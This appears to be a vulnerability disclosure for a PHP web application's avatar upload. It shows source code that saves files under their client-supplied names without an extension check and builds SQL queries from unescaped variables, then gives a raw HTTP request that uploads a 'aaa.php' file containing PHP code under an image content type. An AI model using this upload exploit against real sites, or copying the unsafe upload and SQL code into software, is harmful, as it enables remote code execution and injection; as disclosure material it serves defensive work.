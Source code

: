 ```plain
$file_name = mt_rand() . str_replace(".", "", microtime(true)) . substr(md5($zjzhq), 0, 12) . $file["name"];
$file_path = $path . $file_name;
$userimg = "./user/headimg/" . $file_name;
if (move_uploaded_file($file["tmp_name"], $file_path)) {
    $sql = "UPDATE user SET img='{$userimg}' WHERE id='{$zid}'";
    $result = $conn->query($sql);
    if ($result) {
        $sqlo = "select * from essay where ptpuser= '{$user_zh}'";
        $resulto = mysqli_query($conn, $sqlo);
        if (mysqli_num_rows($resulto) > 0) {
            while ($rowo = mysqli_fetch_assoc($resulto)) {
                $txid = $rowo["id"];
                $sql = "UPDATE essay SET ptpimg='{$userimg}' WHERE id='{$txid}'";
                $result = $conn->query($sql);
                if ($result) {
                }
            }
        }
```

**Payload:**

```plain
POST /api/uploadavatar.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 206
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9CKBqDZadLQ1ff5J
Cookie: deviceid=1708223329907; rockkefu_deviceid=1708240409582; BJYADMIN=7ovdcsf3httsj0r6fbu10mk7l2; adminToken=a66abb5684c45962d887564f08346e8d; userName=test; userToken=05a671c66aefea124cc08b76ea6d30bb; dark_theme=root; PHPSESSID=5s1ppgucs5raqrlnuqisgrjdht; username=mstir; passid=l5no2rmjhs4g824ry6wymx104j5dy5y24w4utq0w25mfzh34comxj8gpg02xnr5t
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/api/uploadavatar.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

-----------------------------113389720123090127612523184396
Content-Disposition: form-data; name="file"; filename="aaa.php"
Content-Type: image/jpeg

<?php phpinfo();?>
-----------------------------113389720123090127612523184396
```
